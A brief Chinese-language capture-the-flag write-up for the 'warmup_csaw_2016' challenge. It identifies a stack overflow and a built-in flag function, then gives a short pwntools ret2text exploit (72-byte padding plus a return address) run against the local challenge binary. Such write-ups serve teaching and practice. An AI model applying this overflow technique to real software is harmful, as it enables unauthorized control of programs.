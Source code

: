 ```yaml
---
title: "warmup_csaw_2016"
description: ""
date: 2023-03-30T22:51:11+08:00
lastmod: 2023-03-30T22:51:11+08:00
draft: false
images: []
type: docs
weight: 999
toc: true
---
```


## 0x01 分析

![09d4eedd8bf2501793e6ea0160f22923](images/09d4eedd8bf2501793e6ea0160f22923.png)  

存在溢出点，而且程序里有直接获取flag的函数

![b7018d5d4dd90f510226659cb7e99754](images/b7018d5d4dd90f510226659cb7e99754.png)  

直接简单的ret2text即可拿到flag

## Exploit

```python
from pwn import*
o = process("./pwn")
payload = b'a'*72 + p64(0x40060D)
o.sendline(payload)
o.interactive()
```

![cdba4d8aa3119cfd352b0c47a064d02f](images/cdba4d8aa3119cfd352b0c47a064d02f.png)
